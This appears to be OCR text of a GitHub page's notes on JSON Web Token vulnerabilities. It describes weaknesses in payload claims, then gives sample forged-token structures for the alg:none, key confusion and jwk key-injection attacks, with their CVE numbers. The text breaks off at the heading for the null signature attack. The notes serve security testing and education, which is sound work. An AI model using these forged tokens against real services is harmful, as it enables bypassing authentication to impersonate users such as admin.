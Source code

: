 - Vulnerabilities in Payload claims
	- claims with a URL may be tweaked to redirect traffic to an external service under the attacker's control
	- claims with timestamps might be processed before validation, and may tweaked to affect the validity of  a token 
	- supplementary claims may be accessed in unexpected ways by application code, and may introduce a wide range of attack paths through injection into, or addition of these fields

# Known Exploits and Attacks

## CVE-2015-9235 - alg:none attack

```
{"typ":"JWT", "alg":"none"}.
{"login":"admin"}.
[No signature!]
```

## CVE-2016-5431 - key confusion attack

```
{"typ": "JWT", "alg": "HS256"}.
{"login": "admin"}.
[Signed with HMAC-SHA256 using the public key file
identified for the service as the secret]
```

## CVE-2018-0114 - key injection attack

- inclusion of an inline Public key 
- sign the token using a new Private Key, include the Public key in the token and let the service use that key to verify the token 
```
{
	"typ": "JWT",
	 "alg":"RS256",
	 "jwk":{	 
		 "kty":"RSA",
		 "kid":"TEST",
		 "use":"sig",
		 "e":"AQAB",	
		 "n":"u7sEM4Fio...<Public Key>"
		 }
}.  
{"login":"ticarpi"}.  
[Signed with new Private key; Public key injected]
```

## CVE-2020-28042 - null signature attack
